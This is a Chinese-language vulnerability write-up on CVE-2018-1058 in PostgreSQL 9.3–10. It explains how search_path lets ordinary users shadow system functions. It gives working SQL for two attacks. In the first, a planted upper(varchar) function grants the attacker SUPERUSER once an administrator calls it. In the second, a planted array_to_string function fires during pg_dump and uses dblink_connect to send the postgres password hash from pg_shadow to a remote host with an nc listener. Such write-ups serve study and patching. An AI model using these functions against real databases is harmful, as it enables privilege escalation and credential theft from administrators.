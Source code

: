 （CVE-2018-1058）PostgreSQL 提权漏洞
====================================

一、漏洞简介
------------

PostgreSQL
是一款关系型数据库。其9.3到10版本中存在一个逻辑错误，导致超级用户在不知情的情况下触发普通用户创建的恶意代码，导致执行一些不可预期的操作。

二、漏洞影响
------------

PostgreSQL 9.3-10

三、复现过程
------------

### 利用方式

在Postgres的commit记录中，有如下[commit](https://github.com/postgres/postgres/commit/5770172cb0c9df9e6ce27c507b449557e5b45124):

    As special exceptions, the following client applications behave as documented
    regardless of search_path settings and schema privileges: clusterdb
    createdb createlang createuser dropdb droplang dropuser ecpg (not
    programs it generates) initdb oid2name pg_archivecleanup pg_basebackup
    pg_config pg_controldata pg_ctl pg_dump pg_dumpall pg_isready
    pg_receivewal pg_recvlogical pg_resetwal pg_restore pg_rewind pg_standby
    pg_test_fsync pg_test_timing pg_upgrade pg_waldump reindexdb vacuumdb
    vacuumlo.  Not included are core client programs that run user-specified
    SQL commands, namely psql and pgbench.

上面的commit提到了两类的client
applications。下文的较为直观的利用方式一是针对第二类client
applications（比如psql），然后利用方式二是通过第一类client
applications来执行任意代码，相比较下更为隐蔽。

### 利用方式一

在系统schema`pg_catalog`中，定义了大量的函数，用pgAdmin3查看:

![1.png](./resource/(CVE-2018-1058)PostgreSQL提权漏洞/media/rId27.png)

以函数abs系列为例，接受一个类型为bigint\\smallint\\intger\\real\\double
precision\\numeric的参数，返回其绝对值。倘若我们传送一个非数值类型的参数呢，比如text，

    evil=> select abs('chybeta');

由于并没有参数类型为text的abs函数，会直接报错：

![2.png](./resource/(CVE-2018-1058)PostgreSQL提权漏洞/media/rId28.png)

但postgres提供了自定义函数的功能！我们创建如下函数：

    CREATE FUNCTION public.abs(TEXT) RETURNS TEXT AS $$
         SELECT 'you are hacked by ' || $1;
    $$ LANGUAGE SQL IMMUTABLE;

当我们再次执行同样的查询语句，根据postgres的设计流程，它会先去查找系统schema`pg_catalog`，但由于参数类型不同没有找到，接着按照`search_path`中的顺序查找，而我们定义的`abs(text)`存在于schema`public`中，参数符合，因此pg理所当然地执行了我们定义的函数:

![3.png](./resource/(CVE-2018-1058)PostgreSQL提权漏洞/media/rId29.png)

注意一个点，这个函数是定义在schema`public`中的，也就是说对于进入到这个数据库的任何用户，只要他们调用了abs，且参数为text，都有可能会诱发恶意的代码执行。比如以超级用户postgres执行:

![4.png](./resource/(CVE-2018-1058)PostgreSQL提权漏洞/media/rId30.png)

不过有谁会傻乎乎的去运行一个莫名其妙的abs(text)呢？因此真正的攻击手段是将过程隐藏到看似正常的数据库查询中。这次我们选择schema`pg_catalog`中的另外一类函数比如lower(text)，upper(text)，它们分别将text类型的参数转成小写和大写，不过系统没有提供接受varchar参数的lower和upper，尽管可以进行类型转换，但对pg而言，最好的选择当然是参数类型恰好符合的恶意自定义函数。

创建一个表，值的类型为varchar：

    CREATE TABLE public.hahahaha AS SELECT 'CHYBETA'::varchar AS contents;

创建对应的恶意函数:

    CREATE FUNCTION public.lower(varchar) RETURNS TEXT AS $$
         SELECT 'you are hacked by ' || $1;
    $$ LANGUAGE SQL IMMUTABLE;

对绝大部分用户而言，他们可能看大写的`CHYBETA`不爽，然后执行了lower函数，但在不知道/清楚类型的情况下，他们执行的是public中的恶意自定义函数。

![5.png](./resource/(CVE-2018-1058)PostgreSQL提权漏洞/media/rId31.png)

只能打印`you are hacked by XXX`有毛用！！由于恶意自定义函数可以被超级用户调用到，因此也就有了相应的执行权限，最简单的比如提权。

先来看看权限情况（以超级用户为例），可以看到只有postgres的rolsuper是t，即true:

![6.png](./resource/(CVE-2018-1058)PostgreSQL提权漏洞/media/rId32.png)

在用户chybeta登陆进evil数据库后，他创建了如下`upper函数`:

    CREATE FUNCTION public.upper(varchar) RETURNS TEXT AS $$
        ALTER ROLE chybeta SUPERUSER;
        SELECT pg_catalog.upper($1);
    $$ LANGUAGE SQL VOLATILE;

![7.png](./resource/(CVE-2018-1058)PostgreSQL提权漏洞/media/rId33.png)

注意这里是`VOLATILE`，具体原因参考
[官方文档:xfunc-volatility](https://www.postgresql.org/docs/8.2/static/xfunc-volatility.html)

另外一张table，小写的chybeta:

    CREATE TABLE public.hehehehe AS SELECT 'chybeta'::varchar AS contents;

管理员一看，心中不爽：小写小写就知道小写，然后:

![8.png](./resource/(CVE-2018-1058)PostgreSQL提权漏洞/media/rId35.png)

看上去一切正常，大写的大写。回到用户chybeta处，查看一下权限:

![9.png](./resource/(CVE-2018-1058)PostgreSQL提权漏洞/media/rId36.png)

已经成为超级用户。

利用方法有很多，理论上只要能创建恶意函数，管理员调用，就是以管理员身份去执行恶意sql语句/代码。在这种情况中，如commit所说`Not included are core client programs that run user-specified SQL commands, namely psql and pgbench.`，被攻击用户是知道自己执行的sql语句，只是其中的某个function意义被掉包了。

### 利用方式二

安装完PostgreSQL后还会有一系列的工具，比如pg\_dump、pg\_dumpall等等。基于利用方式一，在创建了恶意函数的基础之上，可以通过这些工具来执行恶意函数。这些工具在执行过程中会动态设定`search_path`，导致`public`的优先级比`pg_catalog`高，也就是说即使是在相同类型相同参数相同函数名的情况下，会选择`public`中的函数。相比第一种而言隐蔽性更强，同时有更高的可触发性。

为利用pg\_dump中的sql语句，可以利用log来观察执行过程。在superuser的权限下`show log_directory;`找到log目录，将目录下postgresql.conf中的约莫455行改为`log_statement = all`。重启PostgreSQL后，使用pg\_dump工具执行备份命令:

    pg_dump -U postgres -f evil.bak evil

同时观察log输出，查找`statement: SET search_path =`，最后在某处我发现了一段这样的log:![10.png](./resource/(CVE-2018-1058)PostgreSQL提权漏洞/media/rId38.png)

可以看到在这段log中，有一处的`array_to_string`是没有指定schema的。在系统schema中它的定义如下：

![11.png](./resource/(CVE-2018-1058)PostgreSQL提权漏洞/media/rId39.png)

在这里由于已经设定了`search_path`，为了能直接适配，这里创建的恶意函数的参数个数和类型都必须和`pg_catalog`中定义的相同，倘若不同则会按顺序匹配到正确的函数。

因为pg\_dump在运行过程中开启的是`read only transaction`，根据[官方文档](https://www.postgresql.org/docs/9.1/static/sql-set-transaction.html)：

    The transaction access mode determines whether the transaction is read/write or read-only. Read/write is the default. When a transaction is read-only, the following SQL commands are disallowed: INSERT, UPDATE, DELETE, and COPY FROM if the table they would write to is not a temporary table; all CREATE, ALTER, and DROP commands; COMMENT, GRANT, REVOKE, TRUNCATE; and EXPLAIN ANALYZE and EXECUTE if the command they would execute is among those listed. This is a high-level notion of read-only that does not prevent all writes to disk.

是不允许执行下类操作的:

1.  INSERT, UPDATE, DELETE, COPY FROM
2.  all CREATE, ALTER, and DROP commands
3.  COMMENT, GRANT, REVOKE, TRUNCATE; and EXPLAIN ANALYZE and EXECUTE if
    the command they would execute is among those listed

不过并没有禁止`select`语句。如果开启了dblink，则可以利用查询来带出数据，比如用dblink\_connect。因此我们创建这样的一个恶意函数：

    CREATE FUNCTION public.array_to_string(anyarray,text) RETURNS TEXT AS $$
        select dblink_connect((select 'hostaddr=192.168.248.132 port=12345 user=postgres password=chybeta sslmode=disable dbname='||(SELECT passwd FROM pg_shadow WHERE usename='postgres'))); 
        SELECT pg_catalog.array_to_string($1,$2);
    $$ LANGUAGE SQL VOLATILE;

远程vps上监听：

    nc -lvv 12345

当管理员进行数据库备份时：

    pg_dump -U postgres -f evil.bak evil

![12.png](./resource/(CVE-2018-1058)PostgreSQL提权漏洞/media/rId41.png)

即可得到管理员密码：

![13.png](./resource/(CVE-2018-1058)PostgreSQL提权漏洞/media/rId42.png)

参考链接
--------

> https://xz.aliyun.com/t/2109\#toc-1
